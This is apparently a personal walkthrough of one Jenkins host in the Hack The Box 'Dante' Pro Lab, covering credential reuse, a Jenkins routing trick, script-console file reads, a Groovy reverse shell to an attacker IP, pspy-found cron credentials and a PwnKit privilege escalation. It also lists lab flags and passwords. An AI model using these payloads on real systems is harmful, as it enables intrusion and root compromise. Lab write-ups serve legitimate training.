 # Host [172.16.1.19](http://172.16.1.19):

This one requires a dependency from another machine I may not have rooted yet.
![](./_resources/HTB_Pro_Lab_Dante.resources/image.32.png)

After compromising the DC02 which is the internal Admin subnet, I realized that the credentials I previously found in inside a "jenkins.bat" file are the credentials I should use here since this is the login for the jenkins site.
```
Admin_129834765
SamsungOctober102030
```

I successfully logged in and got the first flag.:
![](./_resources/HTB_Pro_Lab_Dante.resources/image.65.png)
Flag:
```
DANTE{to_g0_4ward_y0u_mus7_g0_back}
```

There is a way to use a combination of different CVEs to get to RCE exploitability for jenkins. In this case, I was able to use the following to indirectly interact with a descriptor without logging in by adding "securityRealm" and the descriptor name/function which in this case was index?q=.:
```
http://172.16.1.19:8080/securityRealm/user/Admin_129834765/search/index?q=a
```

![](./_resources/HTB_Pro_Lab_Dante.resources/image.66.png)
Similar useage to get email:
```
admin@dante.htb
```

![](./_resources/HTB_Pro_Lab_Dante.resources/image.67.png)
source: <https://blog.orange.tw/2019/01/hacking-jenkins-part-1-play-with-dynamic-routing.html>

When using the script console, I was able to find the parameters required to use ls and open certain files as shown below. I also obtained the etc/passwdfile information. However, the shadow file isn't accessible.:
```
    'ls /'.execute().text
and
    string contentRead = new File('/etc/passwd').getText('UTF-8')
```

![](./_resources/HTB_Pro_Lab_Dante.resources/image.68.png)

I got confirmation in Discord that, despite the hint from the first flag, it doesn't have anything to do with the second flag. It may just be referring to the fact that I needed to root DC02 in order to get the credentials for this server. In any case, I was on the right track trying to get a reverse shell. In continuing this method, I quickly gain a reverse shell using the following in the script engine with the netcat listener configured on my attacker machine on port 8888.:
```
String host='10.10.16.101';
int port=8888;
String cmd='/bin/sh';
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

In checking the /var/lib/jenkins directory, I found a strange looking file called .owner with the following data:
```
cat .owner
1963896205 contextPath="" at 1348@DANTE-NIX07
```
I also found a file called secret.key which contained the following hash.:
```
cat secret.key
be246d951ae2ab20beaff7faf8a0eb83fb77e6b9354933d83f533bd55cd38b4f
```

In running pspy64s, this tool allows me to see all cronjobs in realtime as they get executed. I found the following:
![](./_resources/HTB_Pro_Lab_Dante.resources/image.69.png)

```
/bin/sh -c /bin/bash mysql -u ian -p VPN123ZXC
```

After a few attempts, I realized that the password wasn't for a mysql database but rather the password to escalate as Ian. I need to figure out how I can create a symlink and extract /root/flag.txt with:
```
ln -s [path/to/file] /dest/path
# -s is for a soft link; don't use for a hardlink.
```

Vulnerable to CVE-2021-4034

Vulnerable to CVE-2021-3560

Potentially Vulnerable to CVE-2022-2588

I used the 1st CVE to pass along the pwnkit files into a dedicated test folder and then ran:
```
make

# Once this was complete I ran:

./exploit

# From here, I was able to confirm root with 'whoami'.
```

```
Flag: DANTE{g0tta_<3_ins3cur3_GROupz!}
```
